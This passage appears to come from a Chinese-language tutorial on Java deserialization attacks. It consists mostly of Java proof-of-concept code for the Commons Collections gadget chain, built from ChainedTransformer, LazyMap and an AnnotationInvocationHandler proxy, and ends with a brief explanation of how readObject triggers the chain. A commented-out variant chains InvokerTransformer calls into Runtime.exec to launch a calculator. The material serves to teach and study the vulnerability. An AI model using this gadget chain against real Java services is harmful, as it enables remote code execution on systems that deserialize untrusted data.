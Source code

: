         ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map map = new HashMap&lt;&gt;();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);

        String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
        final Constructor&lt;?&gt; constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
        Proxy evilProxy = (Proxy) Proxy.newProxyInstance(Deserialize.class.getClassLoader(), new Class[]{Map.class}, secondInvocationHandler);

        InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);

        return invocationHandlerToSerialize;

        /*Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {
                        String.class }, new Object[] {"open -a calculator"})};

        Transformer chain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap&lt;String, Object&gt;();
        innerMap.put("key", "value");
        Map&lt;String, Object&gt; outerMap = TransformedMap.decorate(innerMap, null, chain);
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, outerMap);
        return instance;*/
    }

    public static void deserializeAndDoNothing(byte[] byteArray) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(byteArray));
        ois.readObject();
    }

    public static byte[] serializeToByteArray(Object object) throws IOException {
        ByteArrayOutputStream serializedObjectOutputContainer = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(serializedObjectOutputContainer);
        objectOutputStream.writeObject(object);
        return serializedObjectOutputContainer.toByteArray();
    }

    public static Object deserializeFromByteArray(byte[] serializedObject) throws IOException, ClassNotFoundException {
        ByteArrayInputStream serializedObjectInputContainer = new ByteArrayInputStream(serializedObject);
        ObjectInputStream objectInputStream = new ObjectInputStream(serializedObjectInputContainer);
        InvocationHandler evilInvocationHandler = (InvocationHandler) objectInputStream.readObject();
        return evilInvocationHandler;
    }
}
</code></pre>
<p>下面我们来分析一下这段代码的逻辑。</p>
<p>在Java通过<code>ObjectInputStream.readObject()</code>进行反序列化操作的时候，ObjectInputStream会根据序列化数据寻找对应的实现类（在payload中是<code>sun.reflect.annotation.AnnotationInvocationHandler</code>）。如果实现类存在，Java就会调用其readObject方法。因此，<code>AnnotationInvocationHandler.readObject</code>方法在反序列化过程中会被调用。</p>